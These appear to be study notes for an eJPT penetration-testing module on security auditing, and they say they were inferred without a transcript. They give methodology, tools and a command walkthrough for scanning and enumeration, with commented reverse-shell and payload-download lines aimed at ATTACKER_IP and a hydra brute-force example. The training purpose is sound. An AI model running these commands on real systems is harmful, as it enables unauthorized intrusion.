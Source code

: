 # 01 – Overview of Security Auditing (eJPT) — Study Notes

Note: No transcript was provided. The following is a conservative, curriculum-aligned summary inferred from the filename and typical eJPT content. Commands are generic, lab-friendly examples. Run only with written authorization and within scope.

## What the video covers (Introduction / big picture)
- Defines security auditing in the context of eJPT: systematic, authorized evaluation of systems, networks, and applications to identify weaknesses, misconfigurations, and vulnerabilities.
- Differentiates security auditing, vulnerability assessment, and penetration testing.
- Introduces common methodologies and standards (PTES, NIST SP 800-115, OWASP Testing Guide) and how they structure engagements.
- Emphasizes scope, rules of engagement (RoE), authorization, safety, and reporting.
- High-level phases: preparation, discovery, enumeration, vulnerability analysis, exploitation validation (if in-scope), post-exploitation checks (minimal in eJPT), and reporting.
- Outlines tools and evidence collection practices you’ll use throughout the eJPT learning path.

## Flow (ordered)
1. Define scope, objectives, and constraints; obtain written authorization.
2. Prepare workspace, note-taking, and baselines (targets, time windows, contacts).
3. Reconnaissance and asset discovery (passive/active).
4. Network mapping and port/service discovery.
5. Service/application enumeration (banner grabbing, protocol-specific checks).
6. Vulnerability triage (version mapping, default creds, common misconfigurations).
7. Exploitation validation where permitted (proof of concept, minimal-impact).
8. Post-exploitation and privilege checks (only as approved).
9. Evidence collection and integrity (timestamps, commands, hashes).
10. Risk rating and remediation guidance.
11. Debrief and reporting (executive summary + technical details).
12. Cleanup and confirmation (remove accounts/artifacts, verify stability).

## Tools highlighted
Likely referenced categories and representative tools:
- Scoping/Planning: Statement of Work, RoE templates, risk matrix (CVSS).
- Discovery/Scanning: nmap, ping/arp-scan, netdiscover.
- Enumeration:
  - Web: whatweb, curl, gobuster/feroxbuster, nikto, Burp Suite (Community).
  - SMB/LDAP: smbclient, enum4linux-ng, rpcclient, ldapsearch.
  - FTP/SSH: ftp, ssh, sftp, s_client (openssl).
- Credential testing (if authorized): hydra, medusa.
- Vulnerability lookup: searchsploit, NVD, vendor advisories.
- Traffic analysis: wireshark, tcpdump.
- Exploitation (lab): metasploit-framework, manual RCE patterns, reverse shells.
- Post-exploitation (lab): linPEAS/LinEnum, winPEAS, whoami/systeminfo.
- Utilities: nc, wget/curl, python3 -m http.server, tmux, seclists wordlists.
- Documentation: screenshots, script logs, nmap -oA, markdown notes.

## Typical command walkthrough (detailed, copy-paste friendly)
These commands model a safe, methodical audit workflow in a lab. Replace placeholders before running.

```bash
# 0) Legal and scope check (no command): Ensure written authorization, scope list, test windows, rate limits.

# 1) Workspace setup
export WK="$HOME/audit-$(date +%Y%m%d-%H%M)"
mkdir -p "$WK"/{scans,notes,loot,web,exploits}
cd "$WK"
echo "[*] Workspace: $WK"

# 2) Target definitions (edit these)
export NET="10.10.0.0/24"
export TGT="10.10.0.5"
echo -e "Network: $NET\nTarget:  $TGT" | tee notes/scope.txt

# 3) Host discovery (safe defaults)
nmap -sn "$NET" -oA scans/00-discovery
# Alternative:
# for i in {1..254}; do ping -c1 -W1 10.10.0.$i &>/dev/null && echo "Up: 10.10.0.$i"; done | tee scans/00-ping-sweep.txt

# 4) Full TCP port discovery on one host (tune min-rate to environment)
nmap -p- --min-rate 2000 -v -oA scans/10-fulltcp "$TGT"

# 5) Targeted service enumeration on discovered ports
# Replace ports with those found above, e.g., 22,80,139,445
export PORTS="22,80,139,445"
nmap -sC -sV -p "$PORTS" -oA scans/11-enum "$TGT"

# 6) HTTP/HTTPS enumeration
whatweb -a 3 "http://$TGT" | tee scans/20-whatweb.txt
curl -i -s -k "http://$TGT/" | tee scans/21-curl-home.txt
# Directory/content discovery (choose a suitable wordlist)
gobuster dir -u "http://$TGT/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,txt,html,js -t 30 -o scans/22-gobuster-root.txt
# Basic vulnerability checks (non-intrusive)
nikto -h "http://$TGT" -o scans/23-nikto.txt

# 7) SMB enumeration (if 139/445 open)
smbclient -L "//$TGT/" -N | tee scans/30-smb-shares.txt
# Connect to a discovered share (read-only if possible)
# smbclient "//$TGT/public" -N -c 'recurse; ls' | tee scans/31-smb-public-listing.txt
enum4linux -a "$TGT" | tee scans/32-enum4linux.txt

# 8) FTP enumeration (if 21 open)
echo -e "open $TGT\nuser anonymous anonymous@\nls\nbye" | ftp -inv | tee scans/40-ftp-anon.txt

# 9) SSH banner/grab (if 22 open)
nc -nv "$TGT" 22 -w 3 | tee scans/50-ssh-banner.txt

# 10) Vulnerability triage
# Use service versions from nmap -sV to look up CVEs
# Example lookup with searchsploit:
searchsploit "OpenSSH" | tee scans/60-searchsploit-ssh.txt
searchsploit "Apache httpd" | tee -a scans/60-searchsploit-web.txt

# 11) Nmap vuln scripts (safe set; confirm allowance before running)
nmap --script=vuln -p "$PORTS" -oA scans/61-nmap-vuln "$TGT"

# 12) Credential testing (only if explicitly authorized)
# Prepare wordlists (example: rockyou)
# gzip -dk /usr/share/wordlists/rockyou.txt.gz
# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://$TGT -t 4 -f -I -o scans/70-hydra-ssh.txt

# 13) Web form testing via Burp Suite (manual, no direct command)
# Configure browser proxy to 127.0.0.1:8080 and intercept requests.

# 14) File transfer helpers (for PoC or enumeration in shells)
# Attacker web server:
# (in $WK/web) python3 -m http.server 8000
# Target download (Linux):
# wget http://ATTACKER_IP:8000/linpeas.sh -O /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh

# 15) Reverse shell listener (lab)
# Attacker:
# nc -lvnp 4444
# Target (if RCE, Linux):
# bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

# 16) Evidence integrity
# Hash key files before/after:
sha256sum scans/* | tee notes/hashes.txt

# 17) Reporting artifacts
# Consolidate key outputs into notes/ and include timestamps
date -Is | tee -a notes/timeline.txt
```

## Practical tips
- Authorization first: Get a signed letter of engagement and clearly defined scope/targets, time windows, rate limits, and out-of-scope systems.
- Safety over speed: Prefer default/safe nmap scripts; avoid aggressive timing (-T5) in production-like environments.
- Be reproducible: Log commands and outputs, keep versions of tools, and timestamp evidence.
- Timebox and pivot smartly: If a path stalls, switch services (HTTP/SMB/FTP) and return later with new info.
- Wordlists matter: Choose appropriate lists from /usr/share/seclists based on target tech; don’t overshoot with massive lists unless allowed.
- Note-taking: Keep a simple per-target structure (findings, creds, paths, proofs, remediation ideas).
- Don’t assume: Always validate a vulnerability with minimal-impact PoC before claiming it.
- Respect data: Minimize data exfiltration; hash sensitive files if collected and store securely.
- Cleanup: Remove test accounts/artifacts, revert configuration changes, and confirm service health.

## Minimal cheat sheet (one-screen flow)
```bash
# Scope vars
NET="10.10.0.0/24"; TGT="10.10.0.5"; mkdir -p scans

# Discovery + ports
nmap -sn "$NET" -oA scans/disc
nmap -p- --min-rate 2000 -v -oA scans/full "$TGT"
PORTS=$(grep -oP '^[0-9]+/tcp.*open' scans/full.nmap | cut -d/ -f1 | tr '\n' ',' | sed 's/,$//')

# Service enum
nmap -sC -sV -p "$PORTS" -oA scans/enum "$TGT"
whatweb -a 3 "http://$TGT" | tee scans/http-whatweb.txt
gobuster dir -u "http://$TGT/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,js -t 30 -o scans/http-gobuster.txt
nikto -h "http://$TGT" -o scans/http-nikto.txt
smbclient -L "//$TGT/" -N | tee scans/smb-shares.txt
enum4linux -a "$TGT" | tee scans/smb-enum.txt

# Vuln checks
nmap --script=vuln -p "$PORTS" -oA scans/vuln "$TGT"
searchsploit "$(grep 'Service Info' -A2 scans/enum.nmap | tr -d '\t')" | tee scans/searchsploit.txt
```

## Summary
- The session introduces security auditing and how it frames the eJPT methodology: plan → discover → enumerate → analyze → validate → report.
- It stresses ethics, scope/RoE, safe testing, and evidence-driven reporting aligned to recognized methodologies (PTES, NIST 800-115, OWASP).
- Use a consistent, low-impact workflow: discover hosts, scan ports, enumerate services, map versions to vulnerabilities, validate minimally, and document clearly.
- The provided commands give a practical baseline for lab scenarios and study, emphasizing clarity, safety, and reproducibility.